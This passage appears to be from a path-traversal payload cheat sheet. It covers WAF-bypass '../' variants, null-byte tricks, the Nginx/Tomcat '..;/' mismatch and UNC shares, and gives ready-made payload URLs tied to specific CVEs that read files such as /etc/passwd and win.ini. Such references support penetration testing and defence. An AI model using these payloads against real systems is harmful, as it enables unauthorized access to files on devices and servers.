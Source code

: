 ### Mangled Path

Sometimes you encounter a WAF which remove the `../` characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

**Example:**: Mirasys DVMS Workstation <=5.12.6

```ps1
{{BaseURL}}/.../.../.../.../.../.../.../.../.../windows/win.ini
```

### NULL Bytes

A null byte (`%00`), also known as a null character, is a special control character (0x00) in many programming languages and systems. It is often used as a string terminator in languages like C and C++. In directory traversal attacks, null bytes are used to manipulate or bypass server-side input validation mechanisms.

**Example:** Homematic CCU3 CVE-2019-9726

```js
{{BaseURL}}/.%00./.%00./etc/passwd
```

**Example:** Kyocera Printer d-COPIA253MF CVE-2020-23575

```js
{{BaseURL}}/wlmeng/../../../../../../../../../../../etc/passwd%00index.htm
```

### Reverse Proxy URL Implementation

Nginx treats `/..;/` as a directory while Tomcat treats it as it would treat `/../` which allows us to access arbitrary servlets.

```powershell
..;/
```

**Example**: Pascom Cloud Phone System CVE-2021-45967

A configuration error between NGINX and a backend Tomcat server leads to a path traversal in the Tomcat server, exposing unintended endpoints.

```js
{{BaseURL}}/services/pluginscript/..;/..;/..;/getFavicon?host={{interactsh-url}}
```
### UNC Share

A UNC (Universal Naming Convention) share is a standard format used to specify the location of resources, such as shared files, directories, or devices, on a network in a platform-independent manner. It is commonly used in Windows environments but is also supported by other operating systems.

An attacker can inject a **Windows** UNC share (`\\UNC\share\name`) into a software system to potentially redirect access to an unintended location or arbitrary file.
